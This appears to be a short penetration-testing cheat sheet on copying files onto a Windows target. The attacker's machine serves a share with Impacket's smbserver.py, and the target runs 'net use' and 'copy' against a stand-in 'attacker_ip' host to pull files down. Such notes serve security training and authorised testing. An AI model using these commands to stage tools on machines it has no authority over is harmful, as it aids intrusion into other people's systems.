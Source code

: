 
We can use an SMB server to copy files into a windows box from our attacker's machine


#### On the attacker's end

Create an SMB share in the folder where your sharable files are stored

```python
smbserver.py <share_name> <share_path> -ts -smb2support -username any -password any
```



#### On the target machine

1. connect to the share 

```batch
net use \\attacker_ip\sharename /u:username password
```


2. Copy contents from the share to a writable location

```batch
copy \\ip\sharename\filename <destination>
```




